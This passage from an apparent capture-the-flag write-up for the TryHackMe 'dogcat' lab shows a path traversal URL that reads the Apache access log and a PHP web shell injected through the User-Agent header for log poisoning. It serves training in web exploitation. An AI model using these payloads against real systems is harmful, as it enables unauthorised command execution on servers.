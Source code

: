 In the browser, let's get the content of `/var/log/apache2/access.log`, by visiting <a href="https://dogcat.thm/?view=/var/www/html/cat.php../../../../../var/log/apache2/access&ext=.log" target="_blank"><er>http://dogcat.thm/?view=/var/www/html/cat.php../../../../../var/log/apache2/access&ext=.log</er></a>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-27 16_18_03-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>phpinfo()</i></center>
<br/>

#### **<strong><font color="MediumPurple">Web shell:</font></strong>**
Using ```Burp```, Let's inject the ```User-Agent``` header, with the following:

```php
[Output]: <?php system($_GET['cmd']); ?>
```
> 📍 Adding a marker, such as ```"[output]"```, in your web shell is recommended to make it easier to locate your output in the log file as it grows. This way, you can quickly find your output with `Ctrl+F` even as the log file becomes larger.

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-27 16_46_27-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Injecting the User-Agent header in Burpsuite</i></center>
<br/>
